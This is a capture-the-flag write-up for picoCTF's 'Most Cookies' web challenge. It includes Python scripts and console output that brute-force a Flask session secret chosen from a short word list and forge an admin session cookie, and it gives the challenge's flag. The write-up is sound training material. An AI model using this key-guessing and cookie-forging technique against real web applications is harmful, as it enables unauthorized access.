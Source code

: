 # Most Cookies
Category: Web, 150 points

## Description

> Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```

## Solution

From the server source code we can see that if we want to get the flag, we need to access the `/display` endpoint with our cookie containing `very_auth=admin`. However, `very_auth` is set by the `/search` endpoint to a cookie name, as long as the name exists in the `cookie_names` whitelist.

Flask session cookies are integrity-protected using a secret key, so we can't just change them. However, we can see that the application's secret key is chosen from a list of known cookie names:

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

Let's get our hands on a valid session cookie:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Most_Cookies]
└─$ curl 'http://mercury.picoctf.net:18835/search' --data-raw 'name=snickerdoodle' -v -s 2>&1 | grep Set-Cookie
< Set-Cookie: session=eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YGjJkQ.5t60jNE5kbjq2cv4ieuRUpjyA40; HttpOnly; Path=/
```

We can use [this module](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe#file-manageflasksession-py) to decode it. We just need to try all cookie names and see which one decodes successfully.

```python
import manageFlaskSession
import requests

from unittest.mock import patch, mock_open
with patch("builtins.open", mock_open(read_data="dummy_flag")):
    import server

res = requests.post("http://mercury.picoctf.net:18835/search", data={"name": "snickerdoodle"})
server_cookie = res.cookies["session"]

print(f"Server cookie: {server_cookie}")

for cookie in server.cookie_names:
    try:
        out = manageFlaskSession.decodeFlaskCookie(cookie, server_cookie)
        print(f"Found correct key: {cookie}, contents = {out}")
        break
    except Exception:
        pass
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Most_Cookies]
└─$ python3 solve.py
Server cookie: eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YGjMHg.IOhGVuvfk-x0iqZp-fKP5H7pQWc
Found correct key: butter, contents = {'very_auth': 'snickerdoodle'}
```

Now that we have the key, we can also modify the cookie to contain "admin" and send it back:

```python
import manageFlaskSession
import requests
import re

from unittest.mock import patch, mock_open
with patch("builtins.open", mock_open(read_data="dummy_flag")):
    import server

res = requests.post("http://mercury.picoctf.net:18835/search", data={"name": "snickerdoodle"})
server_cookie = res.cookies["session"]

print(f"Server cookie: {server_cookie}")

for cookie in server.cookie_names:
    try:
        out = manageFlaskSession.decodeFlaskCookie(cookie, server_cookie)
        print(f"Found correct key: {cookie}, contents = {out}")
        new_cookie = manageFlaskSession.encodeFlaskCookie(cookie, {u'very_auth': 'admin'})
        print(f"New cookie: {new_cookie}")
        res = requests.get("http://mercury.picoctf.net:18835/display", cookies={"session": new_cookie})
        if match := re.search(r"picoCTF{[^}]+}", res.text):
            print (f"The flag: {match.group(0)}")
        break
    except Exception:
        pass
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Most_Cookies]
└─$ python3 solve.py
Server cookie: eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YGjPaw.bi82UV-0iMOYsKQycz4FHMQxTIc
Found correct key: butter, contents = {'very_auth': 'snickerdoodle'}
New cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGjPbA.8CsOkSIjd1F5RwYPHwph3OJezN8
The flag: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```

The flag: `picoCTF{pwn_4ll_th3_cook1E5_743c20eb}`